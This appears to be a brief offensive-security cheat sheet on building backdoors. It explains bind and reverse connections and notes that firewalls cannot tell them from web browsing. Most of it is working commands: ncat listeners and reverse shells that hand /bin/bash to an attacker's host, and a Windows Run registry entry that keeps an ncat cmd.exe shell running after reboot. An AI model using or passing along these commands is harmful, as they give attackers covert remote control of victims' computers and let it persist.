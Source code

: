 ### Backdoor

Backdoors have two components, server and client:

+ *Server* runs on the victim machine listening on the network in order to accept connections.
+ *Client* runs on the attacker machine.
+ If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a Connect-back Backdoor or Reverse Backdoor.
+ A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

**Create stable connection to a remote host**
``` python
# Listener
ncat -l -v -p 5555 -e /bin/bash
# Client
ncat x.x.x.x 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort
```
```python
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncat
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```
